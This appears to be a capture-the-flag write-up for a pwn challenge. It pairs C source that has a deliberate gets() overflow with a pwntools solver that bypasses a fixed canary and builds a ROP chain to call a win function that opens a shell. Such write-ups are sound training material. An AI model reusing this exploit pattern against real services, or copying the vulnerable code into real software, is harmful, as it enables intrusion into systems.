



so we got the c source and the exe program

`birds.c`:
```c
#include <stdio.h>
#include <stdlib.h>           

void gadget() {
    asm("push $0x69;pop %rdi");
}


void win(int secret) {        
    if (secret == 0xA1B2C3D4) {
        system("/bin/sh");    
    }
}


int main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);

    unsigned int canary = 0xDEADBEEF;

    char buf[64];

    puts("I made a canary to stop buffer overflows. Prove me wrong!");
    gets(buf);

    if (canary != 0xDEADBEEF) {
        puts("No stack smashing for you!");
        exit(1);
    }


    return 0;
}
```
As you can see, there is `gets(buf)`, so this is basically buffer overflow, and it is basically just normal `ret2win` but with canary value, 
```
unsigned int canary = 0xDEADBEEF;
```
After passing through the canary, we will overwrite the return address on the stack. However, we cannot jump directly to the win function because we need to supply the argument 0xA1B2C3D4. On the x86-64 architecture, the first argument to a function is passed through the %rdi register.



even tho we have the real source, but we still need to disass it, 



buf starts at: `rbp - 80`\
canary starts at: `rbp - 4`

The distance is the difference between the two locations:\
`offset = (canary location) - (buf location)`\
`offset = (rbp - 4) - (rbp - 80)`\
`offset = -4 - (-80)`\
`offset = 76`\

and then for `ret` address\
`0x0000000000401285`

so this is the solver:
```py
from pwn import *

elf = context.binary = ELF('./birds')
p = remote('tjc.tf', 31625)
POP_RDI_GADGET = 0x00000000004011c0 
WIN_FUNC_ADDR = 0x00000000004011c4  
SECRET_VALUE = 0xA1B2C3D4
CANARY_VALUE = 0xDEADBEEF
payload = b'A' * 76
payload += p32(CANARY_VALUE)
payload += b'B' * 8
rop_chain = b''
rop_chain += p64(POP_RDI_GADGET) 
rop_chain += p64(SECRET_VALUE)      
rop_chain += b'JUNKJUNK'           
rop_chain += p64(WIN_FUNC_ADDR)        
final_payload = payload + rop_chain
p.recvuntil(b'Prove me wrong!\n')
p.sendline(final_payload)
p.interactive()
```


